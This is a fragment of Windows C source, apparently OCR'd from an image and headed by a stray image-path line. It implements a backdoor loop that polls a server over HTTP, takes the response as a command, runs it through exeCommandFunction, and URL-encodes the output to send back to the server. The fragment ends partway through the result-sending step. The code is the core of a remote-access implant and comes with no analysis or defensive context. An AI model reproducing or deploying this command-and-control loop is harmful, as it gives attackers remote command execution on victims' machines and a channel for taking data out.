 		if(WSAStartup(MAKEWORD(2, 2), &wsaData) != 0) {
			printf("WSAStartup Failed\n");
			return -1;
		}

		while(true) {
			//get command
			retVal = establishConn(&sServer, &servAddr);
			if(retVal != 0) {
				//error
				WSACleanup();
				return -1;
			}

			ZeroMemory(buffer, BUFSIZE);
			ZeroMemory(command, BUFSIZE);
			strcat(buffer, "GET /index.html HTTP/1.0\r\n");
			strcat(buffer, "Host: ");
			strcat(buffer, server);
			strcat(buffer, "\r\n");
			strcat(buffer, "Connection: close\r\n\r\n");
	
			retVal = sendBuf(sServer, buffer);
			if(retVal != 0) {
				closesocket(sServer);
				continue;
			}
			retVal = receiveBuf(sServer, command);
			if(retVal != 0) {
				closesocket(sServer);
				continue;
			}
			printf("Execute: %s\n", command);

			closesocket(sServer);

			//send result
			ZeroMemory(result, BUFSIZE);
			exeCommandFunction(command, result);

			retVal = establishConn(&sServer, &servAddr);
			if(retVal != 0) {
				//error
				WSACleanup();
				return -1;
			}
	
			//urlencode
			urlEncode(result);

			ZeroMemory(buffer, BUFSIZE);
			//GET
			/*
			strcat(buffer, "GET /index.php?result=");
			strcat(buffer, result);
			strcat(buffer, " HTTP/1.0\r\n");
			strcat(buffer, "Host: ");
			strcat(buffer, server);
			strcat(buffer, "\r\n");
			strcat(buffer, "Connection: close\r\n\r\n");
			*/

